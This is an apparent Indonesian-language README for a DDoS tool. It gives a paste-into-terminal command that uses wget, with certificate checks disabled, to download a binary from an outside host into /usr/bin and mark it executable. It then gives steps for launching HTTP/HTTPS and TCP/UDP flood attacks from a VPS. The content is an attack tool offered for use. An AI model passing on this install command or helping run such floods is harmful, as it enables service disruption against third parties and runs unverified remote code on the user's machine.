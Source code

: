 **DDOS ATTACK SIMPEL BY RAFANSTR**

***LINK INSTALASI***
```
wget --no-check-certificate -O /usr/bin/dds http://autsc.my.id/xws ; chmod +x /usr/bin/dds
```

![RafanSTR](https://github.com/Genjerr/DDOS-TOOLS/blob/main/gambar1.png)

**1. tempel link diatas di terminal vps kalian**

**2. jalankan dengan ketik dds di terminal**

**3. lalu install module yang diminta di terminal (lupa apa aja)**

**4. minimal kecepatan koneksi vps 500mbps untuk menjalankan http/https**

**5. untuk tcp/udp bisa costum sendiri mau kecepatan berapa mbps/gbps sesuai kemampuan vps kalian**
